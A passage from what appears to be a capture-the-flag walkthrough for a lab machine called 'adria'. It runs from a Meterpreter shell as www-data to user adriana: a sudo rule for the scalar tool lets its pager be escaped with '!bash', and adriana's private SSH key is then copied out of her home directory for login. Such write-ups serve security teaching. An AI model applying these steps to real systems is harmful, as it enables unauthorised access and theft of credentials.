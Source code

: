 ```bash
meterpreter > shell
# Process 1277 created.
# Channel 0 created.
script /dev/null -c bash
#Script started, output log file is '/dev/null'.
www-data@adria:/var/www/html/uploads$ 
```
# 05. User adriana
```bash
www-data@adria:/$ sudo -l
# sudo -l
# Matching Defaults entries for www-data on adria:
#    env_reset, mail_badpass,
#    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
#    use_pty

#User www-data may run the following commands on adria:
#    (adriana) NOPASSWD: /usr/bin/scalar
```
```bash
www-data@adria:/$ sudo -uadriana /usr/bin/scalar help
# sudo -uadriana /usr/bin/scalar help
# WARNING: terminal is not fully functional
# Press RETURN to continue 

# SCALAR(1)                         Git Manual                         SCALAR(1)

#NAME
#       scalar - A tool for managing large Git repositories

# SYNOPSIS
#       scalar clone [--single-branch] [--branch <main-branch>] [--full-clone] <u
# rl> [<enlistment>]
#       scalar list
#       scalar register [<enlistment>]
#       scalar unregister [<enlistment>]
#       scalar run ( all | config | commit-graph | fetch | loose-objects | pack-f
# iles ) [<enlistment>]
#       scalar reconfigure [ --all | <enlistment> ]
#       scalar diagnose [<enlistment>]
#       scalar delete <enlistment>

# DESCRIPTION
#       Scalar is a repository management tool that optimizes Git for use in
#       large repositories. Scalar improves performance by configuring advanced
#       Git settings, maintaining repositories in the background, and helping
#       to reduce data sent across the network.

# Manual page scalar(1) line 1 (press h for help or q to quit)!bash
!bash
```
```bash
adriana@adria:/$ id
# id
# uid=1001(adriana) gid=1001(adriana) groups=1001(adriana),100(users)
```
Download/Copy *_id_rsa* from */home/adriana/.ssh/id_rsa* and connect via ssh from your computer.
```bash
ssh -i id_rsa adriana@$IP
```
{: .text-justify}
